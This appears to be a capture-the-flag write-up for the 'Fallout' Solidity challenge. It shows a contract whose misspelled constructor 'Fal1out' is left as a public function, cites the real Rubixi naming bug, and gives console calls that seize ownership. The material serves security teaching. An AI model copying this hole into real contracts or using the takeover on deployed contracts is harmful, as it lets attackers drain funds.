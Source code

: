 # Fallout

```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallout is Ownable {

  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  function allocate() public payable {
    allocations[msg.sender] += msg.value;
  }

  function sendAllocation(address allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(this.balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

Here's a real problem that a smart contract called `DynamicPyramid` want to change its name to `Rubixi`, but forget to change its name like following:
![](https://i.imgur.com/Vp0bItN.png)
Source code:
https://etherscan.io/address/0xe82719202e5965Cf5D9B6673B7503a3b92DE20be#code

To this chanllenge, just call this contract's fault construct `Fal1out` like normal function, then you can change its owner to you.
![](https://i.imgur.com/8Wi8MgH.png)

```javascript
contract.owner() // check the owner
contract.Fal1out() //call the fatal construct
contract.owner() // check the owner change or not
```

By the way, this lesson also tells us that font-style in IDE really makes something matter.